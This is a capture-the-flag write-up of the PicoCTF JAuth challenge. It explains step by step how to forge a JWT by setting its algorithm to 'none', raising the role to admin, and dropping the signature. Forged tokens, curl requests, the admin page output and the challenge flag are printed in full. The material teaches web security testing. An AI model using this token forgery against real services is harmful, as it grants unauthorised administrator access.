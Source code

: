 # Write up of JAuth PicoCTF problem

This write up of the PicoCTF JAuth challenge is different from others because it is from first-principles. We explain how the clues lead logically to the solution!

## Problem Specification

- AUTHOR: GEOFFREY NJOGU

Most web application developers use third party components without testing their security. Some of the past affected companies are:

- Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
- Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
- VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?
The website is running at [http://saturn.picoctf.net:55824](http://saturn.picoctf.net:55824). Can you become an admin?
You can login as `test` with the password `Test123!` to get started.

### Hints

- Use the web browser tools to check out the JWT cookie.
- The JWT should always have two (2) . separators.

## Local Setup

In this walk-through I am using the FireFox browser. The reason for this is that it has some hacker friendly tricks that the more popular browsers don't have. We shall see this in due course.

## Solution Strategy

Firstly the problem starts talking about famous public web-oriented hacks, and then the first hint is about JWT cookies.
Logically we can combine these two ideas as follows:

1.  Lets try out the given website, and study the JWT cookie.
1.  Lets do research on known vulnerabilities related to the JWT cookie we get.

The note about JWT separators is unusual, so we'll need to come back to that when it is relevant.

## Initial Interaction with the Bank website

1. I launch FireFox and visit http://saturn.picoctf.net:55824
1. It prompts for username and password, so I give it `test` and `Test123!`

We now use the menu option `Tools > Browser Tools > Web Developer Tools`

To find out cookies, we use Diagnostic Tab `Storage` and then on the left use sub-section `Cookies`.

This tells us there is a cookie called `token` whose value is

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjg4MzA4OTY3fQ.aJ_sbLSDUsxHCCbwzF1AwxeSS-AmI4T3dWhhgvkoluU
```

Note that on Firefox you can double click here and actually edit the cookie. This is one reason why Firefox is hacker-friendly.

We know that this is a good cookie in the sense that we managed to login with it. Also the cookie is base64 encoded but with the dot (period) character. It is of the form `A.B.C` where each of A, B, and C and base64 encoded strings. So we note this is called out by the second hint which draws attention to the `.` (period) characters.

## Research

When we look up the public breaches we note that the websites call out various insecure aspects of the technology they used.
So what is potentially insecure about our JWT above?

To find out what we have we can use the JWT debugger website [https://token.dev/](https://token.dev/). By pasting in the above token value we get:

```
Header
{
  "typ": "JWT",
  "alg": "HS256"
}
Payload
{
  "auth": 1688308967209,
  "agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0",
  "role": "user",
  "iat": 1688308967
}
```

A search for JWT Vulnerabilities such as "how to detect if a website uses insecure JWT implementation" yields the website
[Testing JSON Web Tokens](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)

![Guidelines](./WSTG_Guidelines.png)

This is now a direct walkthrough of what we need to do. First switch off security, by setting "alg" to "none", then set the role to "admin", and then omit the signature at the end but retain the trailing period.

Using the JWT debugger website with the Algorithm Drop-Down button set to `none` we can get to:

![Modified JWT](./modifiedJWT.png)

```
Header
{
  "typ": "JWT",
  "alg": "none"
}
Payload
{
  "auth": 1688308967209,
  "agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0",
  "role": "admin",
  "iat": 1688308967
}
```

This yields the base64 JWT:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30
```

We then just need to add the trailing period so it remains valid:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.
```

If we go back into Firefox, having double-clicked the Cookie value, we can paste in the above value, and then press Reload.
It gives us an Admin login with the Flag shown.

![Edited JWT](./editedJWT.png)

There is one final Firefox trick. Clicking on the Network Tab, clicking on the network request (that returned 200) and then right-clicking we can select `Copy Value > Copy as cURL` to get the following:

![getCurl.png](./getCurl.png)

```
curl 'http://saturn.picoctf.net:55824/private' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-GB,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://saturn.picoctf.net:55824/' -H 'Connection: keep-alive' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.' -H 'Upgrade-Insecure-Requests: 1'
```

This can be pruned down to the essentials to prove we know our solution.

```
curl 'http://saturn.picoctf.net:55824/private' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.'
```

The result is:

```

<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta
      name="viewport"
      content="width=device-width, initial-scale=1, shrink-to-fit=no"
    />
    <title>Our Bank</title>
    <link
      rel="stylesheet"
      href="https://maxcdn.bootstrapcdn.com/bootswatch/3.2.0/united/bootstrap.min.css"
    />
    <style type="text/css">
      .form-signin {
        width: 100%;
        max-width: 420px;
        padding: 15px;
        margin: auto;
      }
    </style>
  </head>
  <body>
    <div class="text-center">
      <h1>Hello, admin! You have logged in as admin!</h1>
    </div>
    <div class="text-center"><span>picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}</span></div>
    <form class="form-signin" action="/logout" method="GET">
      <div class="text-center mb-4">
        <input type="submit" class="btn btn-danger" value="logout" />
      </div>
    </form>
  </body>
</html>
```

Hence the flag is `picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}`
